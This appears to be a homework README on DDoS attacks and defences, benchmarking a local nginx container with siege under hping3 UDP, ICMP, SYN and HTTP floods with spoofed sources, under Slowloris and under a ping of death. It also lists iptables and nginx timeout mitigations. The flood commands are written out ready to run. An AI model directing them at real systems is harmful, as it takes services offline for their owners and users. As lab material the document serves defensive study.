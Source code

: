 # DDoS attacks - Homework 17

Setup two docker containers:

attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)

Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection

## How to run

`docker compose up`

This will spin up nginx instance, application on nodejs and a mongodb behind it. It has 1 endpoint: `GET /data` that queries the db and returns the result

## Test results 

We will use the following command to test current nginx availability

```
docker build -t siege . && docker run --rm --network="host" siege -i  -c 10 -t 10s -f ./urls.txt
```


### Without DDoS attacks:



```
Transactions:                   3462 hits
Availability:                 100.00 %
Elapsed time:                   9.27 secs
Data transferred:              16.45 MB
Response time:                  0.03 secs
Transaction rate:             373.46 trans/sec
Throughput:                     1.77 MB/sec
Concurrency:                    9.97
Successful transactions:        3462
Failed transactions:               0
Longest transaction:            0.05
Shortest transaction:           0.02
``` 

### UDP flood 


```
docker run --rm --network=homework_17_private-network utkudarilmaz/hping3:latest --rand-source --flood --udp nginx
```

```
Transactions:                   1087 hits
Availability:                 100.00 %
Elapsed time:                   9.31 secs
Data transferred:               5.16 MB
Response time:                  0.08 secs
Transaction rate:             116.76 trans/sec
Throughput:                     0.55 MB/sec
Concurrency:                    9.61
Successful transactions:        1087
Failed transactions:               0
Longest transaction:            7.15
Shortest transaction:           0.02
```

Udp flood seem to significantly reduce performance.

Possible solution would be to use `iptables` to block UDP traffic or block unneded ports with the firewall, though it can be properly tested in Docker. We can assume that closed all unneded ports and now we try to make a DDoS attack using `host` network:

```
docker run --rm --network=host utkudarilmaz/hping3:latest --rand-source --flood --udp 127.0.0.1 -p 8080
```
```
Transactions:                   3484 hits
Availability:                 100.00 %
Elapsed time:                   9.88 secs
Data transferred:              16.55 MB
Response time:                  0.03 secs
Transaction rate:             352.63 trans/sec
Throughput:                     1.68 MB/sec
Concurrency:                    9.98
Successful transactions:        3484
Failed transactions:               0
Longest transaction:            0.06
Shortest transaction:           0.02
```

### ICMP flood
```
docker run --rm --network=homework_17_private-network utkudarilmaz/hping3:latest --rand-source --flood --icmp nginx -p 8080
```

```
Transactions:                   1201 hits
Availability:                 100.00 %
Elapsed time:                   9.69 secs
Data transferred:               5.71 MB
Response time:                  0.08 secs
Transaction rate:             123.94 trans/sec
Throughput:                     0.59 MB/sec
Concurrency:                    9.71
Successful transactions:        1201
Failed transactions:               0
Longest transaction:            4.11
Shortest transaction:           0.01
```

Same result and same defense approaches can be done as for UDP flood.
We could disable ICMP protocol or apply some rate limits to it

```
possible sollution:

iptables -A INPUT --proto icmp -j DROP
iptables -L -n -v  [List Iptables Rules]
```

### HTTP flood

```
docker run --rm --network=host utkudarilmaz/hping3:latest --rand-source --flood  127.0.0.1 -p 8080
```

```
Transactions:                   3388 hits
Availability:                 100.00 %
Elapsed time:                   9.22 secs
Data transferred:              16.09 MB
Response time:                  0.03 secs
Transaction rate:             367.46 trans/sec
Throughput:                     1.75 MB/sec
Concurrency:                    9.95
Successful transactions:        3388
Failed transactions:               0
Longest transaction:            0.05
Shortest transaction:           0.02
```

This kind of attack does not seem to affect nginx performance locally.

Possible defense solutions:
- Rate limiting requests from single IP
- Limiting number of connections from 1 IP
- Blocking IPs

### Slowloris

```
docker run --rm --network=host aminvakil/slowloris  -s 1024 127.0.0.1 -p 8080
```

```
Transactions:                      0 hits
Availability:                   0.00 %
Elapsed time:                   0.03 secs
Data transferred:               0.00 MB
Response time:                  0.00 secs
Transaction rate:               0.00 trans/sec
Throughput:                     0.00 MB/sec
Concurrency:                    0.00
Successful transactions:           0
Failed transactions:            1033
Longest transaction:            0.00
Shortest transaction:           0.00
```

This attack seem to overwhelm nginx fully, since all 1024 workers are busy.

Possible solution is to limit the time to transfer body/headers

```
client_body_timeout 1s;
client_header_timeout 1s;
```

```
Transactions:                   3282 hits
Availability:                 100.00 %
Elapsed time:                   9.33 secs
Data transferred:              15.59 MB
Response time:                  0.03 secs
Transaction rate:             351.77 trans/sec
Throughput:                     1.67 MB/sec
Concurrency:                    9.96
Successful transactions:        3282
Failed transactions:               0
Longest transaction:            0.06
Shortest transaction:           0.02
```

### SYN flood

```
docker run --rm --network="host" utkudarilmaz/hping3:latest --rand-source --flood -S 127.0.0.1 -p 8080
```

```
Transactions:                   2604 hits
Availability:                 100.00 %
Elapsed time:                   9.11 secs
Data transferred:              12.37 MB
Response time:                  0.03 secs
Transaction rate:             285.84 trans/sec
Throughput:                     1.36 MB/sec
Concurrency:                    9.73
Successful transactions:        2604
Failed transactions:               0
Longest transaction:            1.09
Shortest transaction:           0.02
```

This attack seem to affect nginx moderatly

Possible solutions could be related to rate limiting SYN packets from single IP address:

```
iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP
```

### Ping of Death

```
ping -s 65507 nginx
```

Does not seem to work due to being an outdated type of DoS attack